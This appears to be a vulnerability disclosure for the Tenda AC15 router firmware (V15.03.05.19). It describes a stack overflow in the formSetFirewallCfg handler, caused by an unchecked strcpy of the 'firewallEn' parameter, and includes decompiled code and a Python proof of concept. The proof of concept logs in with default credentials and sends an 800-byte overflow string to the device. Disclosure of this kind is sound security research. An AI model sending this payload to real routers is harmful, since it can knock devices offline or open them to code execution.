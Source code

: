 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function formSetFirewallCfg, the content obtained by the program from the parameter "firewallEn" is passed to local_20, 
and then the local_20 is directly copied into the local_38 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetFirewallCfg(undefined4 param_1)
{
  ...
  local_20 = (char *)FUN_0002ba8c(param_1,"firewallEn",&DAT_000f2e68);
  __src = (char *)strlen(local_20);
  if ((char *)0x3 < __src) {
    strcpy((char *)&local_38,local_20); // here is overflow
    GetValue("security.ddos.map",acStack120);
    GetValue("firewall.pingwan",&local_80);
    sprintf(acStack256,"%c,1500;%c,1500;%c,1500",local_38 & 0xff,local_38 >> 0x10 & 0xff,
            local_38 >> 8 & 0xff);
    SetValue("security.ddos.map",acStack256);
    SetValue("firewall.pingwan",(int)&local_38 + 3);
    memset(acStack256,(int)&DAT_000f2e9c,0x40);
 ...
}
```

### * POC
```python
import requests


cmd  = b'firewallEn=' + b'A' * 800



url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/SetFirewallCfg?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
